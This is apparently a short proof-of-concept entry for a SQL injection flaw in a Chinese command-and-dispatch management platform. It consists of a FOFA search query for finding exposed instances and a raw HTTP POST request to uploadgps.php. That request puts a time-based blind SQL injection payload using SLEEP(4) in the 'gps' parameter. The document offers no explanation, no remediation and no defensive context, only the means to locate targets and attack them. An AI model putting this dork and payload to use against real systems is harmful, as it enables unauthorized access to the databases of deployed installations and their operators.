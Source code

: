 # fofa
```body="指挥调度管理平台"
poc
POST /api/client/task/uploadgps.php HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 83

uuid=&gps=1'+AND+(SELECT+7679+FROM+(SELECT(SLEEP(4)))ozYR)+AND+'fqDZ'='fqDZ&number=
```

![](https://cdn.nlark.com/yuque/0/2024/png/43104311/1727103672149-954231e5-a465-459b-82ab-e92eb79b760c.png)

